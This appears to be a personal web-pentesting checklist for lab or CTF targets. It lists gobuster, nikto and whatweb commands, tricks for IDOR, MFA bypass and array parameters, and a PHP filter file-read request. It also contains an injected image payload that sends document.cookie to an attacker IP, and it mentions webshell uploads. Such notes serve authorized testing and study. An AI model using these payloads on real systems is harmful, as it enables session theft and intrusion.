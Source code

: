 Quick check:
	is there a login?
		try admin, administrator..
		try sqli

`gobuster dir -r -u http://server.com -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt -t 30 -e`

`gobuster dir -r -u http://server.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -e` 

`gobuster dir -k -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 20 -u http://10.10.10.10`

`gobuster vhost -r -u http://10.10.10.10 --domain server.com -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -t 30`




What's running:
	check nmap
	look at web page
	view source code
	burp
		check X-Powered-By header

robots.txt

check source for
	links to "hidden" pages like admin-panels
	passwords
	hints
	parameters
	mail addresses of users and admins/support/privileged users

go to the url for folders used on the site to check for file listings and other files
	especially if they are called files

list possible users and usernames
	validate?
		login form
		registation form

login
	second step of mfa can sometimes be bypassed by just going to a page requiring the access
	

check for IDOR
	numbers
	random ids
	...

Google
	"technology/framework" exploit
	poc
	cve

What's the file structure
	check common ones
		admin, 
	Directory busting
	[[InfoSec/Tools n Info/02 - Web Exploration/Fuzzing/gobuster|gobuster]]
	[[feroxbuster|feroxbuster]]

virtual hosts

checking for REST Endpoints or GET/POST parameters to exploit
	are there forms
	.ajax() call (if jQuery)
	.fetch 
	in browser
		forms: we find on the webpage - open the network tab in the dev tools of the browser - send off the form - see where the connection goes to in the network tab

Checking for REST Endpoints in the information we collected (source code or directory busting)

Parameters & Injections
	try making parameters arrays by adding `[]` before = like `username[]=whatever`
		also try adding more than one value, for example for e-mail addresses
			`'user[email][]': [self.target, self.evil]`
	try changing id= 1 to 2 ... '
	"/item/13" <- change the 13 to 1 or 0
	html injections
		`<img src='http://10.10.14.156:8000/dog.jpg'>`
		`<img src='a' onerror='var i=new Image;i.src="http://10.10.14.156:8000/?"%2bdocument.cookie;'>`
	SQLi
	commands in the os's shell
	commands in programming language

Where ^
	forms
	parameters in url

PHP filter
	PHP://filter/convert.base64-encode/resource=
	example: `GET /test.php?view=PHP://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php HTTP/1.1`



webshell or revshell upload
	use what the system is built on; php, python django, vbscript node.js... perl might also work


Run scanners:
	`nikto -h http://whatever.thm`
	`whatweb -a 4 http://dailybugle.thm`
	``

https://owasp.org/www-project-web-security-testing-guide/latest/

